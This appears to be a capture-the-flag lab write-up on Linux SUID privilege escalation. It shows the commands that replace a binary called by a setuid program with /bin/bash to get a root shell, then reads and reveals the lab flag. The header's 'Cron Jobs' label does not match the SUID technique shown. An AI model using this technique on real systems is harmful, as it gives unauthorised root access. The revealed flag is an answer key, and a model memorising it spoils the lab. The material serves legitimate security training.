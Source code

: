 # 🔬SUID

## Lab 1

>  🔬 [Exploiting Setuid Programs](https://www.attackdefense.com/challengedetails?cid=73)
>
>  - **Cron Jobs** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
pwd
ls -al
```

```bash
drwxr-xr-x 1 student student 4096 Sep 22  2018 .
drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
-r-x------ 1 root    root    8296 Sep 22  2018 greetings
-rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
```

> 📌 `welcome` file has the `SUID` permission applied

```bash
./greetings
	bash: ./greetings: Permission denied
./welcome
	Welcome to Attack Defense Labs
```

```bash
file welcome
```

```bash
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

```bash
strings welcome
```

![](.gitbook/assets/image-20230319194050643.png)

- It calls `greetings` binary

```bash
rm greetings
cp /bin/bash greetings
./welcome
```

![](.gitbook/assets/image-20230319194317860.png)

```bash
cd /root
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>



`b92bcdc876d52108778e2d81f3b01494`

![](.gitbook/assets/image-20230319194412904.png)

</details>

------

